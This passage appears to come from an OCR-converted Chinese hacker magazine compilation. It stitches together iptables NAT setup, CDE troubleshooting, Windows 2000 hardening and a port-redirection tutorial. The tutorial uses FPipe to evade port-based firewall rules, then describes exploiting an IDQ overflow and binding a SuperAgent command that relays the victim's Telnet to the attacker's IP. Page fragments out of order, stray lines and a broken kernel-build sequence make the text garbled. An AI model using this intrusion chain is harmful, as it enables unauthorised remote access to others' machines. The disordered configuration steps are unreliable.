经过一系列编译后，产生 Tkpppoe 的拨号界面，点击“属性”按钮，在基础配置里填入所申请的账号、相关拨号的域名和账户密码。在 DNS and NIC 配置页面输入本地电信 DNS 服务器的地址。

```bash
cd /usr/src/linux
make mrproper    # 清除以前编译内核所剩余的废弃链接
make xconfig     # 如果使用字符界面，可用 make menuconfig
```

选择 `networking options`：

- `network packet filtering (replace ipchains)`：选择 Y
- `IP: netfilter Configuration`

这里的选项包括了整个 Netfilter 框架所需要的模块，因此可根据各自需要酌情添加。当然也可全部添加，为了不增大内核，大多数选项尽量以模块方式编译（M 选项）。接着保存，退出配置界面。

```bash
make dep
make clean
make bzImage
make modules
```

配置完毕，点击“start”，拨号完毕，可以在本机顺畅上网。于是，在 /etc/rc.d/rc.local 中添加如下语句：

```bash
### 还原默认网关
route add -net 202.90.187.0 gw 202.90.187.1 netmask 255.255.255.0 dev eth0
### 启动 IP 转发
echo "1" > /proc/sys/net/ipv4/ip_forward
depmod -a
### 其后应用 ipchains 链接
```

# 黑客研究院

## 黑客X档案2002—2003年合订本

```bash
#make modules_install
```

以上步骤是编译内核模块的依附关系，创建内核映像文件，编译和安装模块。一般编译的映像文件存在于 `/usr/src/linux-version/arch/i386/boot` 下。启用新的内核需要拷贝映像和系统映射文件到引导区。

```bash
#cp /usr/src/linux-version/arch/i386/boot/bzImage /boot/vmlinuz-version.iptables
#cp /usr/src/linux-version/System.map /boot/system.map-iptables
#cd /boot
#ln -fs vmlinuz-version.iptables vmlinuz
#ln -fs system.map-iptables system.map
```

删掉冗余，编辑 `/etc/lilo.conf`，添加其中的一行：

`image=/boot/vmlinuz-version.iptables`

运行 lilo，使配置生效：

```bash
#lilo -v -v -v
```

重启计算机，启动新的内核，使得 Iptables 命令生效，可运用 Netfilter 框架结构来实现 NAT。

Netfilter 主要由 5 个链钩和连接而成，如图所示：

```text
==PREROUTING==[router]
==FORWARD==POSTROUTING==
  ||
  v        ||
INPUT      [router]
  |        ||
  []       .
  ||     .OUTPUT
  }}       :||
  v        .
-------------------------Local
```

数据包从接口进入以后到达 PREROUTING，经过 IP 校验后，过滤机制判断数据包的目的是传输到防火墙本身还是传递给输出接口。这个链钩可以检查进入数据包是否匹配已经存在的连接途径，改变数据包的信息和改变数据包的目的地址和端口，也称为 DNAT。

INPUT 链钩则是运用于从接口进入、终点地址为防火墙的数据包。可以存储新连接的信息，可对进入防火墙的数据包进行过滤，以此保护防火墙规则不会被外部侵入所修改。FORWARD 链钩则是数据包通过防火墙传输的方式，一般可通过对数据包过滤来定义数据包通过的行为。

OUTPUT 链钩则处理由防火墙所产生的到输出接口的数据包。可以做 DNAT，进行包过滤，存储新连接信息。POSTROUTING 则处理输出的数据包，所有过滤规则在此前完成。可以进行源地址 NAT（SNAT），对地址进行变换（地址伪装）并且存储新连接的信息。

使用了 Netfilter 的结构后，实现 NAT 功能需要通过 Iptables 来完成。

配置规则如下：

`#iptables -t nat -A POSTROUTING -o ppp0 -j MASQUERADE`

即对源 IP 进行地址伪装（Masquerading），通常建议在使用拨号上网的时候使用，或者说在合法 IP 地址不固定的情况下使用。

这样之后，从公网 PING 网站服务器有 ICMP 的响应，可是所有服务变得不可访问，即所有服务器的端口无法正常响应。详细查看 NAT 法则，发现 NAT 不仅做地址变换，也对端口进行变换，则服务器回应的端口做了伪装，所以诸如 TCP 三次握手连接做了伪装之后就无法实现了。从上述分析看出，服务器地址和端口不用进行伪装，只做简单的转发就可以了。而内部网则通过防火墙进行访问，其原理也是 NAT 多对一的映射关系。那么，只需对防火墙外部公网地址做伪装就可以满足不影响站点原有的构架，使自己访问 INTERNET 的速度得到提升。

```bash
#iptables -t nat -F
#iptables -t nat -A POSTROUTING -o ppp0 -s 202.90.187.15 -j MASQUERADE
```

`202.90.187.15` 为内部网通过防火墙对外部公有地址访问 INTERNET 的地址。至此，完成了所有配置工作，内部网络访问公网得到了极大的提高，在不改变本网络拓扑结构的前提下，保证了外部网络对本网的正常访问。

附注：以上 IP 地址均为举例说明，并不代表其真实意义。

- 1. http://kalamazoolinux.org/presentations/20010417/nat/NAT-HOWTO.html
- 2. http://kalamazoolinux.org/presentations/20010417/packet/netfilter.html
- 3. http://ods.dyndns.org/ipt_flow.html
- 4. http://www.linuxaid.com.cn/solution/showsol.jsp?i=155


## 二、CDE目录结构

| 目录 | 说明 |
|---|---|
| /usr/dt | 为 CDE 安装的默认主目录，其下目录重要的有： |
| /bin | CDE 应用程序 |
| /lib | CDE 运行所需要的库文件 |
| /config | 默认系统配置文件 |
| /man | 帮助参考手册 |
| /app-defaults | 默认应用程序的类别 |
| /appconfig | 默认应用图标、类型和相关操作 |
| /examples | CDE 程序代码和相关程序例子 |
| /include | 开发 CDE 所需要的头文件 |
| /palettes | 颜色调色板 |
| /share | AnswerBook 文档 |
| /dthelp | CDE 环境帮助文档 |
| /backdrops | 背景图案 |

紫天星

## 三、CDE启动进程

CDE 登录认证后，`/usr/dt/bin/Xsession` 将启动桌面。Xsession 调用 `HomeDirectory/.dtprofile` 文件初始化桌面特性（关于 `.dtprofile` 文件的编辑在文件中已经有详细说明，在此不再赘述）。

`.Xdefaults` 中可以配置默认终端类型、字体、图标放置等一系列个性化桌面设置，具体参阅 man 相关内容。

一般原则是注释 `.dtprofile` 复用文件属性项：`DTSOURCEFILE=true`。

可以允许用户定义 `HomeDirectory/.login` 或 `HomeDirectory/.profile` 文件，使得进程可以遵循此配置文件来启动 CDE 进程。

注意：如果遵循的文件（`.login/.profile`）有语法故障，引起桌面启动进程崩溃，不显示桌面，而重新出现登录界面，可以在 `HomeDirectory/.dt/startlog` 中查看出错记录。语法故障一般是终端信息和控制的问题。参阅 `.dtprofile` 获得解决办法。

## 三、CDE错误文件日志

`/var/dt/Xerrors`  用户登录 CDE 环境前的系统错误

`HomeDirectory/.dt/startlog`  调用 Xsession，初始化 dtprofile、login、profile 等文件的错误记录

`HomeDirectory/.dt/errorlog`  CDE 窗口系统启动后所记录的错误

`HomeDirectory/.dt/sessionlogs`  记录“会话管理”和“窗口管理”错误

## 四、Troubleshootings

- 1. 故障输入设备（鼠标、键盘）导致 CDE login 窗口不能正常初始化，更换设备，排除硬件故障。
- 2. `/tmp` 目录的读、写、执行权限应保持对全部用户开放（因为 CDE 启动时要用 `/tmp` 中的临时文件），保持 Run level 为 3（在 inittab 中设置）。
- 3. `/dev/null` 不可删除。CDE 执行程序通过此文件挂接所用的特性设置。
- 4. `set_parms initial` 重新配置系统参数。

故障：

表现状态：无法显示 login 界面

信息提示：`/var/dt/Xerrors` 主要信息

`error(pid 743): X connection to :0.0 broke(explicit kill or server shutdown).`

`PEX rendering process (pexd) has died;`

`Please restart Xserver to restore PEX rendering capability.`

首先确定 Xserver 的配置文件是否启用（`/etc/dt/config/Xservers`，可以通过 `cp /usr/dt/config/Xservers /etc/dt/config` 实现），查询下列项目是否被注释（具体参见配置文件）：

`*Local local@console /usr/openwin/bin/Xsun :0`

根据故障提示：`X connection to :0.0 broke`，由于 X 服务器借助 TCP 消息机制来解析，如果服务器不能在本地进行解析，查看 `/etc/hosts`，检查主机名是否已经列入了文件中。

用 `ps -ef | grep dtlogin` 查看进程是否运行。通过 `nslookup` 查询，看是否能解析主机名。查阅 `/etc/nsswitch.conf` 文件，检查是否正确配置 DNS。使用 CDE 故障诊断工具 `dt_dr`，注意任何出错地方。

同时注意下面的日志记录，检查任何隐藏错误提示：`/var/adm/syslog/syslog.log`、`/etc/rc.log` 和 `/var/X11/Xserver/logs/X0.log`。

另类的解决办法：

设置 `.cshrc` 的 DISPLAY 环境变量（`uname -n`），DISPLAY 需要 `:0` 或者 `:0.0` 的设置。因此设置 `DISPLAY=<machinename>:0.0`，虽然硬编码机器名是种粗略的修补，毕竟有时候可以使 CDE 运行起来。

## 五、参阅

- 1. Support.sun.com
- 2. www.fangqiang.com
- 3. Support.hp.forum.com

## LAN中2000 pro的安全设置

在我们平时的生活中，经常会通过 LAN（局域网）来上网。在 LAN 中充当一台主机，此时我们的操作系统就会有很多种选择。比如常用的 Windows 98，而 Windows 98 中的蓝屏、死机又常常使我们火气很大，想想如果一篇文章写到一半时当机了，岂不是很火大。再加上 Windows 98 界面不是很美观，于是，越来越多的朋友开始使用非常稳定、美观的操作系统——Windows 2000。个人用户一般会选用 Windows 2000 Pro，但 Windows 2000 毕竟是 Windows NT 的内核，虽然在使用上和 Windows 98 有相同之处，但在具体的安全性能上却比 Windows 98 要好很多，不过如果配置不当，也会带来更大的危险。



## 一、账号密码问题

刚装完 Windows 2000 Pro 的时候，在 Windows 2000 的用户登录时有一个 Administrator 的默认用户以及其他的一些默认用户，其密码默认都为空。此时要在“管理工具”中的“计算机管理”中来设定，如图 1。右击你要设置的用户，选择属性，如图 2。这里就可以设置密码，包括密码的存活时间等等，并且可以将这台机器里的用户分别放进不同的用户组中，以便管理。当然你在进行设置的时候必须要有 admin 的权限，也就是管理员权限。



在设置密码的时候不能设成很容易猜的密码，比如和用户名相同的密码，或者 123、ABC 之类的弱口令。如果是这样，别人用一个字典工具就会很容易地猜解出来。

## 二、IPC$的默认共享问题

相信很多朋友对 IPC$ 的共享都有所了解，也都看过很多关于 IPC 的攻击，很多都是通过管理员用户的弱口令进入的。那么，如果我们把弱口令的问题解决掉了，就可以提高 IPC 的安全。但没有完全不可破解的密码，尤其在 LAN 中，速度很快，在同一 LAN 中的人有可能用字典把密码试出来，然后通过 IPC$ 进入你的电脑中。因此最好把默认共享给删了。打开注册表，选择 `HKEY_LOCAL_MACHINE\SYSTEM\CURRENT Controlset\services\lanmanserver\parameters`，在其下新建一个 DWORD 值，即双字节键值。但是 Pro 和 Server 版的值是不同的，在 Pro 中键值名为：`AutoShareWks`，键值属性：DWORD，键值：0。在 Server 中键值名为：`AutoShareServer`，键值属性：DWORD，键值：0。如果你对注册表不是很了解，也可以写一个批处理文件，打开注册表，写入：

```bat
net share c$ /del
net share d$ /del
net share e$ /del
……（不同的盘符）
net share ipc$ /del
net share admin$ /del
```

然后另存为 `***.bat` 文件，放进“启动”中，以后再开机的时候就可以自动地删除了。

## 三、关闭不必要的服务问题

在“管理工具”中的“服务”中，在所列出的服务中有很多的服务需要了解。尤其在 LAN 中的 Windows 2000 Pro，很多服务都是可以关闭的，比如 Remote Registry Service（允许远程注册表操作）、Task Scheduler（允许程序在指定时间运行）、Telnet（允许远程用户登录到系统并且使用命令行运行控制台程序）、Messenger（发送和接收系统管理员或者“警报器”服务传递的消息）等等，服务打开得越少，系统就越安全。

## 四、文件权限的问题

将装有重要文件的驱动器的文件格式转换为 NTFS，NTFS 在安全性能上比 FAT 有了长足的进步，可以通过命令 `convert [drive:] /FS:NTFS [/V]` 进行转化。一般来说，你可以对文件或者文件夹进行安全设置，为不同的用户或者组设置不同的权限，如图 3。

此时要注意，在设置前必须把 everyone 组给删除，因为这个组默认是每个用户都可以有完全控制的权限。另外，对于一个用户而言，且这个用户同时属于某个用户组的时候，他的权限是叠加的。比如对于一个文件 `file.doc`，如果你设置了一个用户 `qq` 含有 read 权限（读权限），而这个 `qq` 用户又同时属于 `abc` 这个用户组，而这个用户组对这个文件具有 write 权限（写权限），那么这个用户 `qq` 就同时具有了读和写两个权限。但是如果这个用户的所有权限中有一个“否定”出现时，这个用户就失去对此文件或文件夹的访问权限。NTFS 对于共享文件的机器和多用户的机器是一个很好的选择，如果你要共享某个文件，你不必要再设置此文件的共享权限，因为共享权限会和 NTFS 权限产生一些冲突。为了方便，最好就不设共享权限而只设 NTFS 权限。



另外在共享时还要注意的是，如果在 LAN 中有人想共享你的文件，那么你必须要在你的机器中为此用户添加一个用户名，并可设置密码，那么这个用户才能共享你的文件。

应该说 Windows 2000 的这种文件共享方式比 Windows 98 的安全性有了很大的提高。在 Windows 98 中，共享密码非常容易被攻破，而在 Windows 2000 中就不存在这个共享密码，而是用户“登录”计算机的方式。如果你的计算机里没有某个人的用户名，那么这个用户是无法看到你的共享资源的；但如果你希望你的资源可以被整个 LAN 中所有人共用，那么你可以在用户管理中把原来禁用的 Guest 用户打开，那么别人就可以用 Guest 用户来访问你的资源了。

进行如上的处理后，相信大家对在 LAN 中使用 Windows 2000 Pro 有了一些了解。Windows 2000 Pro 作为客户机，我个人认为是非常有优势的。但如果对于电脑游戏的玩家来说，我劝你们还是再装一个 Windows 98，因为 Windows 2000 对游戏的支持实在是不敢恭维。

## 端口重定向的应用

python

一提到端口重定向，对很多人来说既熟悉但又陌生。我相信大多数人都听过端口重定向这个词，但是却不知道如何利用，现在我来给大家讲一些端口重定向的应用。

首先我们先要了解一下什么是端口重定向？

端口重定向，根据表面意思就很容易看出来，就是将一个端口重定到另外一个端口。例如：把 80 端口重定向到 88 端口，它的意义就是当你发送或接收 80 端口请求的时候，端口重定向程序会把你这个请求通过端口 88 给你发送出去。

给大家一个例子：如图 1，我们利用 FPipe 这个端口重定向程序，把本机的端口 80 的请求通过 89 端口重定向到 IP 地址为 `202.108.37.40`（这个地址是新浪的 IP，大家可以通过 `ping www.sina.com.cn` 来获得这个地址）的 80 端口上，此时，只要我们在 IE 浏览器的地址里键入：`http://127.0.0.1`，就可以连接到新浪了。



图 1

OK！理论部分就讲这么多，有什么不明白的自己再去查些资料。接下来讲一下端口重定向的两个主要应用：

## 一、绕过对方的防火墙

### 1. 使用正昌 FPipe

一个很不错的 TCP 端口重定向工具。我想很多人都对这个很感兴趣，这里举一个简单的例子，希望大家能根据这个例子举一反三。

两台机器，IP 分别为：`xxx.xxx.xxx.248` 和 `xxx.xxx.xxx.247`（只写出两个 IP 地址的最后三位数，是为了区分两台机器，分别叫做主机 248 和主机 247）。

首先在主机 248 上用 `net start telnet` 命令打开 Telnet 服务，然后到 247 那台主机上，运行 `fpipe -l 23 -s 88 -r 23 xxx.xxx.xxx.248` 命令，如图 2 所示：



图 2

这样就把本机（主机 247）的 23 端口请求通过端口 88 发送到了 248 主机上的 23 端口。

大家都知道 23 端口对应的是 Telnet 服务吧！别说连这都不知道哦！

更简单的理解就是：当本机发出 Telnet 请求的时候，会通过 247 主机的 23 端口连接到 247 主机的 88 端口，然后再连接到 248 主机的 23 端口，这样能够理解了吧？

接下来要做的就是开始 Telnet。在 247 主机上发出 Telnet 请求，要向哪儿发呢？当然是：`telnet 127.0.0.1`，如图 3 所示。



图 3

这时候向本机发起的请求就被送到了 248 主机的 23 端口上。不信我们到 248 主机上用 `netstat -n` 命令来查看一下，如图 4 所示，可以看到与 248 主机相连接的 247 主机的端口状况。大家看到了吧？247 主机是通过端口 88 和 248 主机的 23 端口进行连接的。因此就可以知道，247 主机通过 88 端口 Telnet 到了 248 主机。

讲到这里是不是还有些人以为这和绕过防火墙没关系吗？呵呵，如果还这样想的话，那我只好再说几句了。很多防火墙的规则设置得很简单，例如一台主机不想被人登录，那么就通过防火墙规则设置为屏蔽端口 23（Telnet 服务）的连接，屏蔽端口 21（FTP 服务）的连接，如果是 Win2000 的话还会屏蔽端口 3389（Terminal Service）的连接，所以像我们刚才那样做的话，我们并不是通过端口 23 进行的 Telnet 连接。因此，对付这些简单进行端口屏蔽的主机来说，这样就可以很容易地绕过对方的防火墙了，是吧？



图 4

如果大家想换成其它的登录方式，应该不用我多说也能举一反三了吧！

### 2. 使用正昌 SuperAgent

这也是一个相当经典的工具了。这个工具对于那些完全屏蔽某些协议数据报的防火墙很有用。例如，屏蔽掉除了 TCP 端口 80 的请求以外的所有 TCP 请求，这时，我们要用 FPipe 也……唉，无奈！但是 SuperAgent 却不一样，因为它可以改变你发送请求的数据的协议类型（有 TCP 和 UDP 两种）。

SuperAgent 是一个在命令提示符或是 MS-DOS 下使用的程序，作者对 SuperAgent 的介绍是“通过 TCP 和 UDP SOCKET 来实现数据转发的工具”，但其实质就是一个端口重定向工具。好了，废话不多说，开始工作：

打开命令提示符（Win98 下打开 MS-DOS），转到 SuperAgent 的目录下，键入 `SuperAgent`，会出现如图 5 的界面。这里的使用方法写得很清楚，所以不多说了，接下来用一个实例来讲述 SuperAgent 的功能。

# 黑客研究院



图5

这里我找到了一个有 IDQ 溢出漏洞的主机，首先我先共享对方的 C:\WINNT\SYSTEM32 目录，然后把 SuperAgent 这个程序 COPY 到对方的 system32 目录下，然后在使用 IISIDQ 进行溢出的过程中，在绑定命令处绑定如下命令：

```text
superagent -t 210.112.120.1 23 1234
```

这里的 210.112.120.1 为我的机器的 IP。

然后在本地机上执行命令：

```text
superagent -u xxx.xxx.xxx.xxx 1234 5678 23
```

